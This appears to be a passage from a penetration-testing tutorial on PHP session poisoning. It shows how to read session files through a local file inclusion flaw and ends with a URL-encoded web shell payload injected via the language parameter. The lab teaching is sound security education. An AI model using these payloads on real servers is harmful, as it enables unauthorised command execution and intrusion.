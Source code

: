 We have seen in previous sections that if we include any file that contains PHP code, it will get executed, as long as the vulnerable function has the Execute privileges.

The attacks we will discuss in this section all rely on the same concept: **Writing PHP code in a field we control that gets logged into a log file** (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

### PHP session poisoning

Most PHP web applications utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in session files on the back-end, and saved in **/var/lib/php/sessions/ on Linux** and in **C:\\Windows\\Temp\\ on Windows**.

The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the **PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3**.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a PHPSESSID cookie set to our session:

For example, our PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd, so it should be stored at /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd. Let's try include this session file through the LFI vulnerability and view its contents:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

We can see that **the session file contains two values**: page, which shows the selected language page, and preference, which shows the selected language. The preference value is not under our control, as we did not specify it anywhere and must be automatically specified. However, **the page value is under our control, as we can control it through the ?language= parameter**.

Let's try setting the value of page a custom value (e.g. language parameter) and see if it changes in the session file. We can do so by simply visiting the page with **?language=session_poisoning** specified, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

This time, the session file contains session_poisoning instead of es.php, which confirms our ability to control the value of page in the session file. Our next step is to perform the poisoning step by writing PHP code to the session file. **We can write a basic PHP web shell by changing the ?language= parameter to a URL encoded web shell, as follows**:

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
